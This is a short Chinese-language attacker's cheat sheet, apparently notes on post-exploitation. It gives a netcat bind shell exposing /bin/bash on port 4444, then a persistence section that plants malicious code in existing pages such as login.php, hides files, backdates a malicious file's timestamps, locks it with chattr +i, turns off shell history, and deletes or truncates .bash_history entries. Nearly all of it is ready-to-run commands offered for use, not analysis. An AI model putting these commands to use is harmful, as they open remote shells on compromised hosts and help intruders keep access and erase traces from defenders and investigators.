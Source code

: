

正向反弹shell

```
被控制端：
nc -lvp 4444 -e /bin/bash
控制端：
nc 被控制端-IP 4444
```

# 权限维持

## linux

将恶意代码写入现有网页如login.php



### **创建隐藏文件**

```shell
touch .filename.php
```

### **修改文件创建时间**

```shell
touch -r file e意文件		#将e意文件的时间改为file的创建时间

touch -d "2023-10-11 16:44" e意文件	#更改e意文件的改动时间

stat file	#查看file的时间等信息

chattr +i e意文件	# 让文件不可修改，目录不可添加删除文件
```

### **关闭历史记录**

```
[space]set +o history
这段代码是Bash shell的一条命令，用于关闭历史记录功能。set +o history命令会关闭shell的历史记录功能，这样你输入的命令就不会被记录在history中了。如果你想重新开启历史记录功能，可以使用set -o history命令。
```

### 删除指定历史记录

```
history -d 历史命令id
```

### 留下指定数量的历史命令

```
sed -i '150,$d' .bash_history		#只留下前149条历史命令，剩下都删掉
```
